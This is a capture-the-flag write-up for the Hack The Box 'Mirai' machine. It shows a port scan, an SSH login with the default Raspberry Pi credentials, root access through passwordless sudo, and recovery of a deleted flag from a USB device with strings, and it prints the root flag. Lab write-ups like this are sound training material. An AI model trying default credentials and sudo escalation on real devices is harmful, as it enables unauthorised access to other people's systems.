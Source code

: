 ```yaml
---
tags:
  - hack
  - linux
---
```

# HTB: [Mirai](https://app.hackthebox.com/machines/Mirai)

## Enumeration

```console
$ nmap -n -sCV -T4 -p1-65535 -v $t
[...]
PORT      STATE    SERVICE     VERSION
22/tcp    open     ssh         OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
| ssh-hostkey: 
|   1024 aa:ef:5c:e0:8e:86:97:82:47:ff:4a:e5:40:18:90:c5 (DSA)
|   2048 e8:c1:9d:c5:43:ab:fe:61:23:3b:d7:e4:af:9b:74:18 (RSA)
|   256 b6:a0:78:38:d0:c8:10:94:8b:44:b2:ea:a0:17:42:2b (ECDSA)
|_  256 4d:68:40:f7:20:c4:e5:52:80:7a:44:38:b8:a2:a7:52 (ED25519)
53/tcp    open     domain      dnsmasq 2.76
| dns-nsid: 
|_  bind.version: dnsmasq-2.76
80/tcp    open     http        lighttpd 1.4.35
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: lighttpd/1.4.35
388/tcp   filtered unidata-ldm
1728/tcp  open     upnp        Platinum UPnP 1.0.5.13 (UPnP/1.0 DLNADOC/1.50)
20850/tcp filtered unknown
25173/tcp filtered unknown
32400/tcp open     http        Plex Media Server httpd
|_http-favicon: Plex
|_http-title: Unauthorized
|_http-cors: HEAD GET POST PUT DELETE OPTIONS
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Server returned status 401 but no WWW-Authenticate header.
32469/tcp open     upnp        Platinum UPnP 1.0.5.13 (UPnP/1.0 DLNADOC/1.50)
37158/tcp filtered unknown
62763/tcp filtered unknown
62807/tcp filtered unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
[...]
```

Looks like [Pi-hole](https://en.wikipedia.org/wiki/Pi-hole) on port 80, judging by the HTTP header:

```console
$ curl -Lsi http://$t
HTTP/1.1 404 Not Found
X-Pi-hole: A black hole for Internet advertisements.
Content-type: text/html; charset=UTF-8
Content-Length: 0
Date: Tue, 03 Oct 2023 22:42:24 GMT
Server: lighttpd/1.4.35
```

## Exploitation

I can infer that Pi-hole is running on a Raspberry Pi device, probably [Raspbian](https://www.raspbian.org/).

I try the default credentials of `pi:raspberry`:

```console
$ ssh pi@$t
Warning: Permanently added '10.10.10.48' (ED25519) to the list of known hosts.
pi@10.10.10.48's password: 
[...]

SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.

pi@raspberrypi:~ $ cat /home/pi/Desktop/user.txt
ff8377[...]
```

## Privilege Escalation

`sudo` is wide open for the user `pi`:

```console
pi@raspberrypi:~ $ sudo -l
Matching Defaults entries for pi on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User pi may run the following commands on localhost:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: ALL
pi@raspberrypi:~ $ sudo -i
[...]

SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.

root@raspberrypi:~# 
```

The usual `root.txt` file drops a big hint:

```console
root@raspberrypi:~# cat root.txt
I lost my original root.txt! I think I may have a backup on my USB stick...
```

And the USB filesystem contains another hint:

```console
root@raspberrypi:/media/usbstick# cat damnit.txt 
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?

-James
```

Running `strings` on the USB device file reveals the `root` flag:

```console
root@raspberrypi:/tmp# strings /dev/sdb
>r &
/media/usbstick
lost+found
root.txt
damnit.txt
>r &
>r &
/media/usbstick
lost+found
root.txt
damnit.txt
>r &
/media/usbstick
2]8^
lost+found
root.txt
damnit.txt
>r &
3d3e483143ff12ec505d026fa13e020b
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?
-James
```

